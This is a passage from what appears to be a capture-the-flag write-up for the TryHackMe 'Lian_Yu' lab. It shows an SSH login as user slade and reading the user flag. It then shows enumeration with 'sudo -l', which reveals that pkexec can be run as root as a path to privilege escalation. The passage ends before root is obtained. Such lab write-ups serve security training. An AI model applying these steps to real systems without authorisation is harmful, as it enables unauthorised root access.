 ## User and Root Flags

More useful looking information. Nothing else of interest in the files from FTP, time to look at SSH with the info I've gathered:

```text
root@kali:~/thm/lianyu# ssh slade@10.10.252.197
slade@10.10.252.197's password:
                              Way To SSH...
                          Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝

        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ cat user.txt
<<hidden>>
```

Now we have user flag, time to look for privilege escalation to get root. Start with checking if user can execute anything as root:

```text
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

Looks like we are already on the right path. User can execute pkexec as root:

```text
slade@LianYu:~$ sudo /usr/bin/pkexec
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]
```
